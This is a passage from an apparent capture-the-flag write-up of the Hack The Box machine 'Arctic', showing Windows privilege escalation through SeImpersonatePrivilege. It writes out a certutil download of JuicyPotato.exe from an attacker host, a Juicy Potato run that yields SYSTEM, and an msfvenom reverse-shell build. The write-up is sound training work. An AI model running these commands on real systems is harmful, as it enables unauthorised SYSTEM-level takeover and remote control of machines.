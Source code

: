 Nope. The `SERVICE_START_NAME` is `LocalSystem`, which means **only SYSTEM user can restart the service**. Also, user `tolis` can't reboot the machine as this user **doesn't have `SeShutdownPrivilege`**, which is the permission to shut down/reboot the system. That being said, we can't escalate our privilege to SYSTEM via overwriting `CF8DotNetsvc.exe` binary.

Luckily, **user `tolis` has `SeImpersonatePrivilege`**, which means we can leverage **potato exploits** to escalate our privilege to SYSTEM!

According to [https://jlajara.gitlab.io/Potatoes_Windows_Privesc#tldr](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#tldr), if the Windows version is < Windows 10 1809 < Windows Server 2019, we can try to use **[Juicy Potato](https://github.com/ohpe/juicy-potato/)**.

- **Transfer [Juicy Potato executable](https://github.com/ohpe/juicy-potato/releases/) to the target machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:52:15(HKT)]
└> file /opt/juicy-potato/JuicyPotato.exe 
/opt/juicy-potato/JuicyPotato.exe: PE32+ executable (console) x86-64, for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:52:19(HKT)]
└> python3 -m http.server -d /opt/juicy-potato/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\\ColdFusion8\\runtime\\bin>certutil -urlcache -split -f http://10.10.14.8/JuicyPotato.exe C:\\Users\\tolis\\Desktop\\JuicyPotato.exe
[...]
CertUtil: -URLCache command completed successfully.
```

- **Test the exploit:**

```shell
C:\\ColdFusion8\\runtime\\bin>C:\\Users\\tolis\\Desktop\\JuicyPotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c whoami"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\\SYSTEM

[+] CreateProcessWithTokenW OK
```

> Note: You can find a suitable CLSID in [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/).

It worked!

- **Generate a stageless reverse shell executable via `msfvenom`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:57:15(HKT)]
└> msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o revshell_stageless_system.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: revshell_system.exe
```
